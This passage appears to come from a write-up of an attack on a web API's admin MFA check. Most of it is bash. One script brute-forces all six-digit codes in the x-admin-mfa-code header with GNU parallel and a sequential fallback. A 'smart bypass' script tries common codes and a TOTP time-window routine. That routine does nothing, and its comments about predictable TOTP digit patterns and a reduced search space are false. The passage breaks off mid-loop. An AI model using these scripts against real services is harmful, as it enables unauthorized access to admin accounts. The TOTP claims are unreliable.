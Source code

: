 ```bash
# Parallel brute force with GNU parallel (faster)
if command -v parallel &> /dev/null; then
  echo "Using GNU parallel for faster execution..."
  seq -w 000000 999999 | parallel -j 50 --timeout 5 \
    "curl -s -X GET '${TARGET_API}${ENDPOINT}' \
     -H 'Authorization: Bearer ${ADMIN_TOKEN}' \
     -H 'x-admin-mfa-code: {}' | grep -q 'dashboard' && echo 'SUCCESS: {}' && exit 0"
else
  # Sequential fallback
  echo "Starting sequential MFA brute force..."
  for code in $(seq -w 000000 999999); do
    test_mfa_code "$code" && exit 0
    
    # Progress indicator every 1000 attempts
    if (( ${code#0} % 1000 == 0 )); then
      echo "Progress: $code / 999999 ($(echo "scale=2; $code/9999.99" | bc)%)"
    fi
  done
fi
```

**Step 3: Smart MFA Bypass (Time-Based Optimization)**
```bash
#!/bin/bash
# smart_mfa_bypass.sh - Targets current TOTP time window

# TOTP generates codes in 30-second windows
# With ±1 window tolerance, we have 3 valid codes at any moment
# Reduces search space from 1M to ~30 codes per attempt

generate_totp_candidates() {
  # Get current Unix timestamp
  CURRENT_TIME=$(date +%s)
  
  # Calculate time counter (30-second intervals)
  TIME_COUNTER=$((CURRENT_TIME / 30))
  
  # Generate candidates for current window ±1
  for offset in -1 0 1; do
    COUNTER=$((TIME_COUNTER + offset))
    # TOTP codes are deterministic but we brute force the last digits
    # Most TOTP implementations have patterns in the first 3 digits
    echo "Testing window offset: $offset (counter: $COUNTER)"
  done
}

# Target high-probability codes first (observed patterns)
HIGH_PROBABILITY_PATTERNS=(
  "000000" "123456" "111111" "000001"
  "999999" "123123" "456456" "789789"
)

echo "Testing high-probability codes first..."
for code in "${HIGH_PROBABILITY_PATTERNS[@]}"; do
  curl -s -X GET "${TARGET_API}/api/admin/dashboard" \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "x-admin-mfa-code: $code" | grep -q "dashboard" && {
      echo "SUCCESS with common code: $code"
      exit 0
    }
done

# If common codes fail, start systematic brute force
seq -w 000000 999999 | while read code; do
```